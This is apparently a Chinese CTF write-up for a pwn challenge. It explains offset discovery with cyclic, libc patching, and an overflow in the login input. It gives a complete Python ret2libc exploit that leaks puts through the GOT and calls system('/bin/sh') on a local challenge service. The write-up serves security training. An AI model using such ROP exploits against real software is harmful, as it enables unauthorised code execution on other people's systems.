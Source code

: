 ### 日行

本题目就是简单的ret2libc。选手们主要卡在了确定偏移和patchelf上面，还有反应没有ld，其实都是对pwn的工具集还不够熟悉。希望能够通过这次比赛完善自己的调试技巧和工具集合。

patch和获取ld：https://www.cnblogs.com/9man/p/17581934.html

调试获取偏移技巧：

设置payload数值为cyclic(一个足够大的数字)：

![img](https://h9505dssdj.feishu.cn/space/api/box/stream/download/asynccode/?code=ZDVmNjhhMzRlZGQwNGIwMGY3MmU3YTliMjIyNzM4NjJfM2FNYkJ2WEVvUDdjVWZ3WWZqUG5QZ2JlOHBOaDhXZ01fVG9rZW46WFJlemJBRXRNbzJmYzl4eWxiWmN1ODRZbnRoXzE3NDI0NTkxNTQ6MTc0MjQ2Mjc1NF9WNA)

然后运行查看崩溃点：

![img](https://h9505dssdj.feishu.cn/space/api/box/stream/download/asynccode/?code=YzRiYTg3YmMzOGU1YzI2NTNmNWFhZjY4NjUxYmE1ODdfdHBvbWUyellJVmVyVUdiS0tsSUIwQTNTdDhMcGRhME9fVG9rZW46RW5hcWJyN0J0b1dSQ0p4STNzcWNvQUt0bnBkXzE3NDI0NTkxNTQ6MTc0MjQ2Mjc1NF9WNA)

然后基本就可以确定偏移位置：

![img](https://h9505dssdj.feishu.cn/space/api/box/stream/download/asynccode/?code=M2QyYTBlMzdlNGIzMmU4OTI3ZTU4Nzc2YjAyMzA1ZmRfbXFydnRkVFMzbWJxZ09HdzF2dEFkeE5xbk1pMVRXTW1fVG9rZW46QzA1UGJlVkFxb2x0dGF4TGs2bGN5dVZ5bk9iXzE3NDI0NTkxNTQ6MTc0MjQ2Mjc1NF9WNA)

**另外**，debug的时候，可以使用set follow-fork-mode parent来避免进入子进程。

剩下就是简单的ret2libc了。漏洞点就在login里面，虽然输入长度和buffer都是256，但是输入的开始点是另一个字符串的结尾，这导致了溢出。这在实际场景中比较常见。

```Python
from evilblade import *

setup("./pwn")
libset("./libc.so.6")
rsetup("127.0.0.1", 21097)
evgdb("b *0x401820")
#debug的时候，可以使用set follow-fork-mode parent来避免进入子进程
# context(os='linux', arch='mips', log_level='debug')

puts = sym("puts")
got = got("puts")
sys = sym("system")
main = sym("main")
ret = gg("ret",0)
# rdi = gg("mov rdi, rbp",0)# mov rdi, rbp ; nop ; pop rbp ; ret
rdi = gg("pop rdi",0)

rop1 = rop64([rdi, got, puts, main])
# payload = cyclic(207) + p64(got) + p64(rdi) + p64(puts)*2 + p64(main)
payload = cyclic(207+8) + rop1

sl(b"login")
sl(payload)
# sl(mouse)

# pause()
ru("CheckLogin...")
tet()
puts_real = getx64(0,-1)
libcbase = getbase(puts_real,"puts")
sh = string("/bin/sh", libcbase)
rop2 = rop64([rdi, sh, ret, sys, main])

# payload = cyclic(207) + p64(sh) + p64(rdi) + p64(ret)*2 + p64(sys) + p64(main)
payload = cyclic(207+8) + rop2
sl(b"login")
sl(payload)
congra()
ia()
```

![img](https://h9505dssdj.feishu.cn/space/api/box/stream/download/asynccode/?code=YWJhOGQxYmZlNzA0MGY0M2FjNjMwMjlhY2NmZWU1YmVfUkU2UzlsRHFYWldWMUVQOG5jRXJuOW5NN2hQZWNidGtfVG9rZW46TlEwZWIybmtTb1FIWlh4UUlsZmNuSVA3bmhiXzE3NDI0NTkxNTQ6MTc0MjQ2Mjc1NF9WNA)